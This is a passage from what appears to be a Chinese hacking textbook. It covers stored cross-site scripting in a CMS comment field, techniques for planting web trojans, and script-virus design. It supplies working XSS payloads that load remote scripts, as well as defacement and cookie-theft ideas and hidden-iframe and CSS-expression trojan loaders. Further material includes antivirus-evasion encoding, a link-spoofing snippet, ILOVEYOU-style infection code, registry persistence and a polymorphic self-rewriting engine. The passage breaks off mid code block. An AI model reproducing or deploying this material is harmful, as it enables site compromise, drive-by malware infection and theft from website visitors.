首先看看JS语法和我们的参数在JS里有什么限制。其实JS语法有的我也不太清楚。在JS文件里，JS语句是用`;`隔开的，`""`引入表示字符串，函数的参数包括在`()`里面，各个参数用逗号分开。而我们提交的内容在`document.write("")；`这个语句里面，这个语句的作用是将函数参数也就是中间的字符串显示在页面上。那么我们想注入JS的话有两个方式可以选择：第一是在不破坏其语句的情况下利用它的语句在页面插入代码，第二个是干脆Kill掉其语句自己加语句进来。

### 1. JS语句闭合插入跨站

看看第一种方式吧！因为是利用它的语句，所以我们的语句里不能有`"`也不能有`')`，不然IE会解释不了。我们分析下它的JS数据看看：

```javascript
document.write("<table width='100%' align='center' border='0' cellspacing='1' cellpadding='2' class='title'><tr class='tdbg_rightall' align='center'><td>评论人</td><td>评论内容</td><td>评论时间</td><td>打分</td></tr><tr bgcolor='white'><td align='center' width='80'>【<span title='类别：游客\n姓名：jnc\n信箱：ddd@163.com\nOICQ: 159951\n主页: http://jnc' style='cursor:hand'>jnc</span>】</td><td>ddd</td><td align='center' width='120'>2005-12-31 20:26:46</td><td align='center' width='40'>2分</td></tr></table><div align='center'><a href='/Article/Comment.asp?ArticleID=59341&Action=ShowAll'>查看评论详细内容及更多评论</a></div>");


```

呵呵，我们的参数如主页什么的，都是在一个`'`之内的，就是在`<span title='`之内的。如果我们要构造自己的语句，简单点的如`<script>alert("剑心")</script>`，想变化多点就用`<script src=http://www.cnbct.org/1.js></script>`这样的，然后控制1.js内容就可以做很多事了。用前面的来说明吧，我们不能用`"`和`)`一起，所以换成`<script>alert('剑心')</script>`，但是这样的话，`'`和前面的那个`'`匹配就会把结构弄坏啦！都闷吧！如果没有单引号，我们所构造的语句就不能执行，不信用`<script>alert()</script>`试试，什么都没有发生吧！这应该是它的某些CSS样式决定的，我们变不了。

但是不可以放弃啊，既然是注入，那就跟SQL注入一样玩填空游戏吧！先用`'`让前面的变量结束，然后用`>`让它的`<span`标签结束，再构造自己的语句，然后为了看起来正常点就再给它个`<span title='`匹配后面它孤独的`/span>`。语句加起来就是主页那里提交的`'>ddd<script>alert('剑心')</script><span title='`，就可以跨站了，中间跨站字符可以任意改。本机测试成功。本来是要马上去华夏显摆一下的，但是郁闷的是管理员关了评论！郁闷啊！不过还好，我还有他原来的一个JS，里面有位信息猎手的兄弟也在测试，但是他没有成功，如图4-104所示。大家对照我的看看就知道为什么他没有成功了，他只是提交跨站字符，没有想到匹配什么的！
图4-104

### 2. JS语句注释插入跨站

第二种跨站方式更爽的！呵呵，SQL语句支持多句查询，我们JS也支持。首先用`");`闭合前面的语句，然后构造自己的语句，再用`document.write("`闭合后面的语句就可以了。什么？你嫌闭合麻烦？那就用`//`直接注释算了！啊呵！当然，这里要求你熟悉一定的JS语句。为了方便大家，我这里就把JS注入语句写出来！在主页提交：

```javascript
'</span>");document.write("<script src=http://www.cnbct.org/1.js></script>");
```

```javascript
// 这样的格式就可以实现JS跨站注入了，
// document.write("<script src=http://www.cnbct.org/1.js></script>");是我们的注入语句，可以引入一个JS，这样长度就没有什么问题了！
// 我经常跨站注入的JS如下：
document.write("<iframe style='display:none;' src='http://jnc.cnbct.org/mm.htm'></iframe>"); // 引入不可见frame，随便你做什么了
document.title="HackED_BY_剑心"; // 利用属性显示被黑的标题，纯粹是显摆
document.images[0].src='http://jnc.cnbct.org/fuck.jpg'; // 将第一张图片logo显示为我站上的fuck.jpg，还是显摆
// 反正页面的所有属性都可以改，想做什么不行呢！有表单的话改表单，有Cookie的话偷Cookie，或者干脆location增加自己的访问量都可以。只有想不到，没有做不到。
```

JS的浅显注入基本上讲完了，跟其他脚本注入差不多。也许你说就一个页面的跨站而已，没什么大不了！但是再考虑下，这应该是最新的动易系统了，发表评论是没有验证码的，再看看文章是用ID分辨的，那好！抓取数据包后写程序修改提交地址和ID内容，不就可以整站整站地JS注入了么？跟站被人黑了、被人挂马了有什么两样？用C很容易就可以实现。

我测试的时候华夏黑客联盟已经封了发表评论，所以是自己分析的，在变量长度上我也没有看代码，实地测试大家受到限制就不要PK我哦，介绍个思路！也可以看看源代码，查下它是怎么过滤的，看看其他地方还有没有问题！下载什么的应该都有问题。在此真诚感谢QQ上的和生活上的好友，还有我的女朋友，还有非安全，祝愿大家在新的一年都有新的开始吧！文章比较简单，有什么问题到论坛讨论，我的ID是剑心大人。

> **编辑点评：** 又是一篇不错的研究JS跨站的文章。随着服务端语言（asp、php、cfm等）漏洞的减少，现在越来越多的攻击已经转向客户端语言，如跨站、网页木马等，这应当是当前和今后黑客的一个重要入侵方式。仔细学一下dhtml、hta等，你会发现它们强大得令人不敢相信。不过作者只是针对华夏网站系统做了一个思路和本机测试，没有远程实践，有点遗憾。

#### 4.7.4 细谈挂马

在前面我已经多次提到了挂马技术，特别是在第三章中，已经断断续续把各种挂马技术给大家介绍了。但这并不代表就对挂马非常精通了。而且挂马不仅仅是利用跨站漏洞来挂，同样可以利用我们得到的webshell和肉鸡来挂马，而且这种挂马往往更加有效。比如我们入侵电信的一台虚拟主机，已经得到了webshell，但是往往我们的最终目的是入侵到其站点的办公内网，那么这个时候依靠网页木马就是一个非常好的选择。至于怎么样得到webshell，在第二章已经给大家介绍了。在本节中，将引用LCX写的《挂马的技巧》给大家介绍挂马的各种方法和技巧，让大家成为挂马的行家。

### （1）挂马的N种方法

- html挂马法。常规的html挂马方法一般是在网页中插入一条iframe语句，像`<iframe src=http://www.xxx.com/muma.html width=0 height=0></iframe>`。大家现在都被挂马挂怕了，所以查看站点是否被挂，一般是查找关键词iframe。

- 再隐蔽一点的话就是js挂马了。像在原来的网页中写入`<script src=http://www.xxx.com/muma.js></script>`。muma里的js写法一般为`document.write('http:\/\/www.xxx.com\/muma.html');`，或者专业一点的写法是：
  `top.document.body.innerHTML = top.document.body.innerHTML + '\r\n<iframe src="http://www.xxx.com/muma.htm/"><\/iframe>';`
  不过第2种写法要注意：原来的网页中要有body标签。

- css中挂马。这个方法以前并没有人提到过，我在win2k sp2客户端访问成功，2003客户端受限。就是在css中写入：

```css
body {
    hytop: expression(top.document.body.innerHTML = top.document.body.innerHTML +
    ',\r\n<iframe src="http://www.xxx.com/muma.html/"><\/iframe>');
}
```

然后再在主页中调用这个css，代码类似`<link href="css.css" rel="stylesheet" type="text/css">`。在CSDN中对expression的解释是：IE5及其以后版本支持在CSS中使用expression，用来把CSS属性和JavaScript表达式关联起来。这里的CSS属性可以是元素固有属性，也可以是自定义属性。就是说CSS属性后面可以是一段JavaScript表达式，CSS属性的值等于JavaScript表达式计算结果。在表达式中可以直接引用元素自身属性和方法，也可以使用其他浏览器对象。这个表达式就好像是在这个元素的一个成员函数中一样。这个解释关键点是expression可以在css中引入js语句，所以我们可用于挂马。不过经我测试，我写的语句只可以远程调用，本地不可以。

- 在swf中挂马。我在网上下载到了臭要饭的一个swf挂马工具，非常不错，使用方法如图1所示。

这时候我们可以用此工具替换原来网页中的swf，或单独把swf发给某人，或者单独做一个可以显示swf页的网页。在网页中插入swf的语法一般格式为：

```html
<OBJECT classid=clsid:D27CDB6E-AE6D-11cf-96B8-444553540000
codebase=http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=5,0,0,0 WIDTH=760 HEIGHT=60> <PARAM NAME=movie VALUE=xxx.swf> <PARAM NAME=quality VALUE=high> <EMBED src=yyy.swf quality=high
pluginspage=http://www.macromedia.com/shockwave/download/index.cgi?P1_Prod_Version=ShockwaveFlash type=application/x-shockwave-flash width=760
height=60></EMBED></OBJECT>

- 远程任意后缀执行html的技巧。像你可以完全把muma.html改成muma.jpg之类的后然后，语句写成 `<iframe src=http://www.xxx.com/muma.jpg width=0 height=0></iframe>`，这是完全可以的。js 也可以，语句为 `<script src=http://www.xxx.com/muma.jpg></script>`，甚至 js 不要后缀都可以。

```

- 在影音文件中挂马。像用RealMedia Editor修改RM文件挂其他网马。所需工具是RealMedia Editor。打开RealMedia Editor.exe，然后点“文件”→“打开Real媒体文件”，即你所要编辑的视频文件，所需必须是RealOne公司的产品，以RM或RMVB为扩展名。

新建个文本，在里面输入：

`u 00:00:10.0 00:00:30.0 &&_rpexternal&&http://www.nohack.cn`

`00:00:10.0`就是发生第一个事件的时间，这里我们是要让PC弹出网页；`00:00:30.0`也是一样，这个是第二次发生的时间，在0时0分第30秒0微秒时弹出窗口。而后面的`http://www.nohack.cn`即连接指向地址，挂马的时候把它改成你的木马地址即可，保存好。然后点“工具”→“合并事件”，导入刚才的文本。稍等一会儿，点“文件”→“Real文件另存为”保存好即可。最后把你生成的文件发布出去，等别人观看的时候就会连接到你的木马地址了，最后就是等小鸡上线了。

## （2）挂马的N种技巧

其实题目二和题目一很难分开。挂马首先要求的是隐蔽性，这样才能挂得时间长一点。像在swf、js、rm中挂马就比较隐蔽了。但是我们可以再用到一些技巧。
- 2. js 的加密。为了保护我们网页木马的代码，我们可以把 js 内容加密，还能起到躲开杀毒软件的作用，如图 2 所示的 Encode 加密。加密后的 js 调用语句就用 `<SCRIPT language="JScript.Encode" src=http://www.xxx.com/muma.txt></script>` 类似这样的了。我写成了 muma.txt，大家应当不会感觉到奇怪吧？我这里只是介绍了一种最常见的 js 加密方法，js 加密方法无数，大家自己研究吧。

图 2

- 3. URL 的变形。url 变形方法也很多，像图 3 所示 url 的 16 进制转换 Encode 编码。如果是涉及到 url 欺骗的方法就更多了。不过多数的 url 欺骗，像利用 @ 的技巧，IE 都已经打了补丁了。现在有一个漏洞是仍然有效的，代码如下：

```html
<p><a id="SPOOF" href="http://spreadfirefox.com"></a></p>
<div>
<a href="http://ebay.com" target="_blank">
<table>
<caption>
<a href="http://ebay.com" target="_blank">
<label for="SPOOF">
<u style="cursor: pointer; color: blue">
ebay.com
</u>
</label>
</a>
</caption>
</table>
</a>
</div>
```

图 3

保存该代码成网页后，鼠标移到 ebay.com 这个链接上，IE 的状态栏会显示 `http://ebay.com`，但点击后却会打开 `http://spreadfirefox.com` 网站。如果你的网马可以用 IP 地址访问到的话，IP 地址也可以转换。像 127.0.0.1 这样的 IP 还可以变作 2130706433、0x7f.0x00.0x00.0x01、0177.0000.0000.0001 等等，不过是 10 进制、16 进制、8 进制的转变而已。

##### （3）如何才能挂到马

拿到了 webshell 的话，自然挂马是无往不利。但是拿不到的情况下呢？如果注入点有 update 权限，我们可以仔细查找首页中的某条新闻的调用链接，然后 update 数据库达到我们的目的（update 在后面的数据库中会详细讲解）。如果可以进后台，可以比较网站的链接、顶部底部的广告、一些发公告的地方，都可以直接写入你的木马代码等等。后台是灵活的，具体问题具体分析。不过有一点很重要，是不要打乱前台 htm 源文件里的代码逻辑。

### 4.8 脚本病毒简介与分析

脚本（Script）病毒是以脚本程序（如 VBScript、JavaScript、PHP）编写成的病毒。实际上，任何语言都可以编写病毒，而用脚本编写病毒则更加简单，并且编写的病毒具有传播快、破坏力大等特点。例如，爱虫病毒、欢乐时光病毒等，就是利用 VBS（VBScript）编写的，称为 VBS 脚本病毒。万花谷病毒就是利用 JS（JavaScript）编写的。脚本病毒必须通过 Microsoft 的 WSH 才能够启动执行以及感染其他文件。由于 VBS 脚本病毒比较普遍且危害较大，所以这里主要就以 VBS 来介绍脚本病毒。

#### 4.8.1 WSH 简介

WSH 是 Windows Scripting Host（Windows 脚本宿主）的缩略形式。WSH 这个概念最早出现在 Windows 98 操作系统中，是一个基于 32 位 Windows 平台并独立于语言的脚本运行环境，是一个批处理语言/自动执行工具。比如，我们编写了一个脚本文件，后缀名为 .vbs 或 .js，然后在 Windows 下双击并运行它，这个时候，系统就会自动调用一个适当的程序对它进行解释执行，而这个程序就是 WScript.exe（如果是在 DOS 环境下，则为 CScript.exe，命令格式为：`Cscript FileName.vbs`）。

WScript.exe 使得脚本可以被执行，就像执行批处理一样。在 WSH 脚本环境里预定了一些对象，通过这些内置对象，可以实现获取环境变量、创建快捷方式、加载程序、读写注册表等功能。

下面我给大家介绍一下 ActiveX 吧，这个东西可是经常出过缓冲区溢出漏洞的哦！ActiveX 是 Microsoft 提出的一组使用 COM（Component Object Model，部件对象模型）使得软件部件在网络环境中进行交互的技术集。它与具体的编程语言无关。作为针对 Internet 应用开发的技术，ActiveX 被广泛应用于 WEB 服务器以及客户端的各个方面。同时，ActiveX 技术也被用于方便地创建普通的桌面应用程序。ActiveX 既包含服务器端技术，也包含客户端技术。其主要内容是：

- 1. ActiveX 控制（ActiveX Control）：用于向 WEB 页面、Microsoft Word 等支持 ActiveX 的容器（Container）中插入 COM 对象。
- 2. ActiveX 文档（ActiveX Document）：用于在 WEB Browser 或者其它支持 ActiveX 的容器中浏览复合文档（非 HTML 文档），例如 Microsoft Word 文档、Microsoft Excel 文档或者用户自定义的文档等。
- 3. ActiveX 脚本描述（ActiveX Scripting）：用于从客户端或者服务器端操纵 ActiveX 控制和 Java 程序，传递数据，协调它们之间的操作。
- 4. ActiveX 服务器框架（ActiveX Server Framework）：提供了一系列针对 WEB 服务器应用程序设计各个方面的函数及其封装类，诸如服务器过滤器、HTML 数据流控制等。

File System Object 简称 FSO，是微软 ASP 的一个对文件操作的控件。该控件可以对服务器进行读取、新建、修改、删除目录以及文件的操作，是 ASP 编程中非常有用的一个控件。但是因为权限控制的问题，很多虚拟主机服务器的 FSO 反而成为这台服务器的一个公开后门，因为客户可以在自己的 ASP 网页里面直接对该控件编程，从而控制该服务器甚至删除服务器上的文件。在后面讲解 ASP 的时候会详细给大家介绍，这里因为病毒使用到了，所以先给大家有一个感性的认识。

WSH 构架于 ActiveX 之上，通过充当 ActiveX 的脚本引擎控制器，为 Windows 用户充分利用威力强大的脚本指令语言扫清障碍。对于 WSH 的详细信息，大家可以去本书自带的光盘中查找，我已经为大家收录了一本关于 WSH 方面的书籍。

下面我给大家举一个小例子，用来说明 WSH 的功能是如何强大、使用又是如何简单。文件代码如下：

```vb
Set fso=CreateObject("Scripting.FileSystemObject")
fso.GetFile("C:\Hello.txt").Copy("H:\HelloWorld.txt")
'假设 C 盘根目录存在文件 Hello.txt，否则上一行就运行时出错
```

就是这两行就可以完成拷贝文件到指定地点，并重命名。第一行创建一个文件系统对象（File System Object，FSO），第二行利用这个文件系统对象获取目标文件，即 `C:\Hello.txt` 指明的文件，是一个完整的路径文件名。GetFile 函数获得这个文件，Copy 函数将这个文件复制到 H 盘并重命名。这也是用 VBScript 编写病毒的一个显著特点。

下面我给大家讲解两个关于 WSH 的例子。

##### （1）访问文件系统

```vb
WScript.Echo("利用WSH访问文件系统")
dim objDir
set objDir=WScript.CreateObject("Scripting.FileSystemObject")
'使用 FSO 对象
For k=1 to 10
sNewFolder="H:\WshSample"  '给新的文件夹命名
Next
set objShell=WScript.CreateObject("WScript.Shell")
'启动 shell 对象
objShell.Run("notepad"&WScript.ScriptFullName)
'用 shell 对象启动记事本，并打开脚本文件
set fso=WScript.CreateObject("Scripting.FileSystemObject")
set tsObj=fso.CreateTextFile("C:\TestFile.txt",True)
'在 C 盘根目录下创建一个文本文件 TestFile.txt
tsObj.WriteLine("利用WSH访问文件夹系统")
tsObj.Close
```

单单从这里可以看出，如果禁止了 FileSystemObject，那么就可以有效控制这种病毒的传播。用 `RegSvr32 scrrun.DLL /u` 这条命令就可以禁止文件系统对象。如果禁止了文件系统对象，那么在执行代码的时候就会出现错误。

##### （2）访问注册表

用 VBScript 访问注册表，必须先创建一个能与操作系统沟通的对象，再利用这个对象的各种方法对注册表进行操作，创建这个对象的方法和格式如下：

`Set 对象变量名=WScript.CreateObject("WScript.Shell")`

如，`Set regWsh=WScript.CreateObject("WScript.Shell")` 就可以创建一个名为 regWsh 的对象了。

有了这个对象，还要用到几个重要的方法才能够达到访问注册表的目的。常用的方法有以下几种：

- 1. 读注册表键值的操作 RegRead。格式为：`regWsh.RegRead(路径参数)`
- 2. 创建/修改注册表键值的操作 RegWrite。格式为：`regWsh.RegWrite 路径参数,值[,值类型]`  
  说明：当被操作的“路径参数”不存在时，创建该主键或键值；反之，则修改原有的键值。
- 3. 删除注册表键值的操作 RegDelete。格式为：`regWsh.RegDelete 路径参数`

路径参数指出了操作对象，由根键、主键路径和键值三部分组成，各部分表示的方法如下：

- 1. 根键。根键有两种表示方法：缩写形式（Short）和完整形式（Long），相互对应关系如表 4-13 所示。

| 缩写形式 | 完整形式 | 缩写形式 | 完整形式 |
|---|---|---|---|
| HKCU | HKEY_CURRENT_USER | 无 | HKEY_USERS |
| HKLM | HKEY_LOCAL_MACHINE | 无 | HKEY_CURRENT_CONFIG |
| HKCR | HKEY_CLASSES_ROOT |  |  |

表 4-13

- 2. 主键路径。主键路径就是目标键在注册表中的主键位置，各个主键之间用“\\”分隔，如：“\\Software\\Microsoft\\Windows\\CurrentVersion\\RainbowOnSites”。
- 3. 键值。键值参数可以省去不写，这时所有操作都只针对整个主键进行，而不是该主键的某个值。如果想对某个主键下的某个键值进行操作，则应包含这一部分，直接接在主键路径之后即可。例如，一个完整的参数如下所示：  
  “HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RainbowOnSites\\NoRun”

下面就给大家讲解一段操作注册表的程序，代码如下：

```vb
Dim RegWsh,sReadKey,sPrompt,sFixprompt
Set RegWsh = WScript.CreateObject("WScript.Shell")
RegWsh.RegWrite "HKCU\\MyRegKey\\", "一级键值"
sReadKey=RegWsh.RegRead("HKCU\\MyRegKey\\")
sPrompt="(默认)键值为： "&sReadKey&"""&sFixprompt
msgbox "读取的 HKCU\\MyRegKey\\下"&sPrompt

RegWsh.RegWrite "HKCU\\MyRegKey\\Entry\\", "二级子键"
sReadKey=RegWsh.RegRead("HKCU\\MyRegKey\\Entry\\")
sPrompt="(默认)键值为： "&sReadKey&"""& sReadKey
msgbox "读取的 HKCU\\MyRegKey\\Entry\\下"&sPrompt

RegWsh.RegWrite "HKCU\\MyRegKey\\Entry\\", "修改后的二级子键"
sReadKey=RegWsh.RegRead("HKCU\\MyRegKey\\Entry\\")
sPrompt="(默认)键值已经修改为： "&sReadKey
msgbox "读取的 HKCU\\MyRegKey\\Entry\\下"&sPrompt

MsgBox "将数值项 HKCU\\MyRegKey\\Value 设为字符类型（REG_SZ），数值为 1"
RegWsh.RegWrite "HKCU\\MyRegKey\\Value", 1

MsgBox "将数值项 HKCU\\MyRegKey\\Entry 设为双字节型（REG_DWORD），数值为 2"
RegWsh.RegWrite "HKCU\\MyRegKey\\Entry", 2, "REG_DWORD"

MsgBox "将数值项 HKCU\\MyRegKey\\Entry\\Value1 设为二进制类型（REG_BINARY），数值为 3"
RegWsh.RegWrite "HKCU\\MyRegKey\\Entry\\Value1",3, "REG_BINARY"

MsgBox "以下将删除 HKCU\\MyRegKey\\Entry\\Value1 数值"
RegWsh.RegDelete "HKCU\MyRegKey\Entry\Value1"

MsgBox "以下将删除 HKCU\MyRegKey\Entry 主键"
RegWsh.RegDelete "HKCU\MyRegKey\Entry\"

MsgBox "以下将删除 HKCU\MyRegKey 主键"
RegWsh.RegDelete "HKCU\MyRegKey\"
```

只要把上面的 VBScript 编写的操作注册表代码放在网页文件中，不用对代码进行任何修改，只需要在上面的代码前后分别加上 `<script language=VBScript></script>` 即可。用它可以修改我们 IE 浏览器的主页、可以修改系统的各个参数，万花谷病毒就充分利用了注册表，以达到破坏的目的。

#### 4.8.2 脚本病毒的特点

要了解脚本病毒，其特点是首先要掌握的。理解了它的特点，就可以对脚本病毒从整体上有一个把握了。我们就以 VBScript 为例子进行说明。

VBScript 利用 Windows 系统的开放性特点，通过调用一些现成的 Windows 对象、组件，可以直接对文件系统、注册表等进行控制，功能非常强大。应该说病毒就是一种思想，但是这种思想在用 VBS 实现时变得极其容易。VBS 脚本病毒具有如下几个特点：

- 1. 编写简单，一个以前对病毒一无所知的病毒爱好者可以在很短的时间里编出一个新型病毒来。
- 2. 破坏力大。其破坏力不仅表现在对用户系统文件及性能的破坏，它还可以使邮件服务器崩溃，网络发生严重阻塞。
- 3. 感染力强。由于脚本是直接解释执行，并且它不需要像 PE 病毒那样做复杂的 PE 文件格式处理，因此这类病毒可以直接通过自我复制的方式感染其他同类文件，并且自我的异常处理变得非常容易。
- 4. 传播范围大。这类病毒通过 htm 文档、Email 附件或其它方式，可以在很短时间内传遍世界各地。
- 5. 病毒源码容易被获取，变种多。由于 VBS 病毒解释执行，其源代码可读性非常强，即使病毒源码经过加密处理后，其源代码的获取还是比较简单。因此，这类病毒变种比较多，稍微改变一下病毒结构，或者修改一下特征值，很多杀毒软件可能就无能为力。
- 6. 欺骗性强。脚本病毒为了得到运行机会，往往会采用各种让用户不大注意的手段，譬如邮件附件名采用双后缀，如 .jpg.vbs。由于系统默认不显示后缀，这样用户看到这个文件的时候，就会认为它是一个 jpg 图片文件。
- 7. 使得病毒生产机实现起来非常容易。所谓病毒生产机，就是可以按照用户意愿生产病毒的机器（当然，这里指的是程序）。目前的病毒生产机之所以大多数都为脚本病毒生产机，其中最重要的一点还是因为脚本是解释执行的，实现起来非常容易，具体将在我们后面谈及。

#### 4.8.3 脚本病毒原理分析

- 1. vbs 脚本病毒如何感染、搜索文件

VBS 脚本病毒一般是直接通过自我复制来感染文件的，病毒中的绝大部分代码都可以直接附加在其他同类程序的中间。比如新欢乐时光病毒就是将自己的代码附加在 .htm 文件的尾部，并在顶部加入一条调用病毒代码的语句；而爱虫病毒则是直接生成一个文件副本，将病毒代码拷入其中，并以原文件名作为病毒文件名的前缀，vbs 作为后缀。下面我们通过爱虫病毒的部分代码具体分析一下这类病毒的感染和搜索原理，以下是文件感染的部分关键代码：

```vb
Set fso=createobject("scripting.filesystemobject")

'创建一个文件系统对象
set self=fso.opentextfile(wscript.scriptfullname,1)

'读打开当前文件（即病毒本身）
vbscopy=self.readall

'读取病毒全部代码到字符串变量 vbscopy
set ap=fso.opentextfile(目标文件.path,2,true)

'写打开目标文件，准备写入病毒代码
ap.write vbscopy

'将病毒代码覆盖目标文件
ap.close
set cop=fso.getfile("C:\test.txt")

'得到目标文件路径
cop.copy("C:\test.txt" & ".vbs")

'创建另外一个病毒文件（以 .vbs 为后缀）
目标文件.delete(true)

'删除目标文件
```

上面描述了病毒文件是如何感染正常文件的：首先将病毒自身代码赋给字符串变量 vbscopy，然后将这个字符串覆盖写到目标文件，并创建一个以目标文件名为文件名前缀、vbs 为后缀的文件副本 test.txt.vbs，最后删除目标文件。如果文件夹设置为“隐藏已知文…”件类型的扩展名”，则用户看到的仍然是 `test.txt`，而真正的文件扩展名为 `.vbs` 被隐藏），用户看到的只是文件的图标已经改变。

下面我们具体分析一下文件搜索代码：

```vb
' 该函数主要用来寻找满足条件的文件，并生成对应文件的一个病毒副本
Sub scan(folder_)        ' scan 函数定义
    On Error Resume Next ' 如果出现错误，直接跳过，防止弹出错误窗口

    Set fso = Wscript.CreateObject("Scripting.FileSystemObject")
    Set folder_ = fso.GetFolder(folder_)
    Set files = folder_.Files        ' 当前目录的所有文件集合
    For Each file In files
        ext = fso.GetExtensionName(file) ' 获取文件后缀
        ext = LCase(ext)                 ' 后缀名转换成小写字母
        If ext = "mp3" Then              ' 如果后缀名是 mp3，则显示文件路径及文件名
            Wscript.Echo(file)
        End If
    Next

    Set subfolders = folder_.SubFolders
    For Each subfolder In subfolders     ' 搜索其他目录；递归调用
        scan(subfolder)
    Next
End Sub

scan("C:")    ' 调用 scan() 搜索整个 C 盘，参数也可以是 "C:\"
```

上面的代码就是 VBS 脚本病毒进行文件搜索的代码分析。搜索部分 `scan()` 函数做得比较短小精悍，非常巧妙，采用了一个递归的算法遍历整个分区的目录和文件。

##### （2）VBS 脚本病毒通过网络传播的方式及代码分析

VBS 病毒之所以传播范围广，主要依赖于网络传播功能。一般来说，脚本病毒主要通过如下四种方式进行传播：

- 1. 通过 E-MAIL 附件传播
- 2. 通过局域网传播
- 3. 通过感染 HTML、ASP、JSP、PHP 传播
- 4. 通过 IRC 聊天通道传播

因为本书是讲解脚本的，而且目前最主要的传播方式还是第三点，所以这里我就给大家讲解通过感染 HTML、ASP、JSP、PHP 这种方式。

病毒之所以能够在 htm 文件中发挥强大功能，采用了和绝大部分网页恶意代码相同的原理。基本上，它们采用了相同的代码，不过也可以采用其它代码。这段代码是病毒 FSO、WSH 等对象能够在网页中运行的关键。

在注册表 `HKEY_CLASSES_ROOT\CLSID` 下我们可以找到这么一个主键 `{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}`，注册表中对它的说明是“Windows Script Host Shell Object”。

同样，我们也可以找到 `{0D43FE01-F093-11CF-8940-00A0C9054228}`，注册表对它的说明是“FileSystem Object”。一般先要对 COM（组件对象模型）进行初始化，在获取相应的组件对象之后，病毒便可正确地使用 FSO、WSH 两个对象，调用它们的强大功能。下面就是一段完整的病毒怎么利用 CLSID 来调用 FSO 和 WSH 的 JavaScript 代码：

```html
<html>
<head>
<title>利用 CLSID 创建实例</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</meta>
<script language="JavaScript">
document.write("<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>")
// Applet 可以翻译为小应用程序，Java Applet 就是用 Java 语言编写的这样的一些小应用程序，它们可以直接嵌入到网页中，并能够产生特殊的效果，在后面会详细讲解
function creatObj(){
    try {
        // try...catch 为异常处理，在后面的 JSP 中会详细讲解
        obj = document.applets[0];
        obj.setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}");
        obj.createInstance();      // 创建一个实例
        Fso = obj.GetObject();     // 获取文件系统对象，以便写文件
        tsObj = Fso.OpenTextFile("C:\\testCLSID.txt", 2, true);
        // 打开 C:\\testCLSID.txt
        tsObj.Write("Hello FSO");  // 在文件 C:\\testCLSID.txt 里写入 Hello FSO
        tsObj.close();

        obj.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
        obj.createInstance();      // 创建一个实例
        WshShell = obj.GetObject();// 获取 shell 对象，以便运行程序
        WshShell.Run("notepad c:\\testCLSID.txt"); // 打开 C:\\testCLSID.txt
    }
    catch(e)
    {
    }
}
</script>
<body>
<input type="button" value="创建实例" name="btn" onclick="creatObj(); return false">
</body>
</html>


```

单击“创建实例”按钮，将会在 C 盘创建文件，并用记事本打开文件。

把上面的这些代码保存为 html 的网页格式，打开看看，就看到有一个按钮，如图 4-105 所示，点击按钮就可以在 C 盘创建文件，并用记事本打开文件。我们用杀毒软件扫描看看，如图 4-106 所示，提示是发现了木马。
图 4-105
图 4-106

##### （3）脚本病毒是如何获得控制权

对于病毒来说，如果没有一定的权限，那它本身就无法执行了，也就不可能进行破坏等动作了，所以如何获取控制权是每一个病毒的核心之一。下面我就给大家介绍几种脚本病毒如何获取权限的方法。

- 1. 修改注册表

Windows 在启动的时候，会自动加载 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 项下的各键值所指向的程序。脚本病毒可以在此项下加入一个键值指向病毒程序，这样就可以保证每次机器启动的时候拿到控制权。VBS 修改注册表比较简单，直接调用 `wsh.RegWrite(strName, anyvalue[, strType])` 语句即可。

- 2. 通过映射文件执行方式

譬如，我们“新欢乐时光”将 dll 的执行方式修改为 `wscript.exe`，甚至可以将 exe 文件的映射指向病毒代码。

- 3. 欺骗用户，让用户自己执行

这种方式其实和用户的心理有关。譬如，病毒在发送附件时，采用双后缀的文件名。由于默认情况下后缀并不显示，举个例子，文件名为 `beauty.jpg.vbs` 的 vbs 程序显示为 `beauty.jpg`，这时用户往往会把它当成一张图片去点击。同样，对于用户自己磁盘中的文件，病毒在感染它们的时候，将原有文件的文件名作为前缀，vbs 作为后缀产生一个病毒文件，并删除原来文件，这样用户就有可能将这个 vbs 文件看作自己原来的文件运行。

- 4. 利用 desktop.ini 和 folder.htt 互相配合

这两个文件可以用来配置活动桌面，也可以用来自定义文件夹。如果用户的目录中含有这两个文件，当用户进入该目录时，就会触发 `folder.htt` 中的病毒代码。这是“新欢乐时光”病毒采用的一种比较有效的获取控制权的方法。并且利用 `folder.htt`，还可能触发 exe 文件，这也可能成为病毒得到控制权的一种有效方法。

##### （4）脚本病毒对抗杀毒软件的方法

病毒为了要生存，对抗反病毒软件的能力也是必需的。一般来说，VBS 脚本病毒采用如下几种对抗反病毒软件的方法。

- 2. 变量名自动改变

可以随机选取密钥对自己的部分代码进行加密变换，使得每次感染的病毒代码都不一样，达到了多态的效果。这给传统的特征值查毒法带来了一些困难。病毒还可以进一步采用变形技术，使得每次感染后的加密病毒在解密后的代码都不一样。下面看一个简单的 VBS 脚本变形引擎：

```vb
Set Of = CreateObject("Scripting.FileSystemObject")
' 创建文件系统对象

vCode = Of.OpenTextFile(WScript.ScriptFullName, 1).ReadAll
' 读取自身代码
fS = Array("Of", "vC", "fS", "fSC")
' 定义一个即将被替换字符的数组
For fSC = 0 To 3
    vCode = Replace(vCode, fS(fSC), Chr((Int(Rnd * 22) + 65)) _
        & Chr((Int(Rnd * 22) + 65)) & Chr((Int(Rnd * 22) + 65)) _
        & Chr((Int(Rnd * 22) + 65)))
    ' 取 4 个随机字符替换数组 fS 中的字符串
Next
Of.OpenTextFile(WScript.ScriptFullName, 2, 1).WriteLine vCode
' 将替换后的代码写回文件
```

上面这段代码使得该 VBS 文件在每次运行后，其 `Of`、`vC`、`fS`、`fSC` 四个字符串都会用随机字符串来代替，这在很大程度上可以防止反病毒软件用特征值查毒法将其查出。

- 3. 脚本加密、加壳与变形

在“新欢乐时光”病毒中，可以随机选取密钥对自身的部分代码进行加密转换，使得每次感染的病毒代码都不一样，而且病毒还可以进一步地采用变形技术，使得每次感染后病毒在解密后的代码都不一样。

用脚本编码器 `ScrEnc.EXE` 之类的工具软件加密脚本，加密后的脚本能被 WSH 直接解释。不过加密是可逆的，所以现在所有的杀毒软件都有解码的功能。

对于 EXE 病毒的免杀，大家最先想到的应该是“加壳”吧。不过在脚本上也可以用这个办法，例如下面的代码就是一个最简单的壳了，代码如下：

```vb
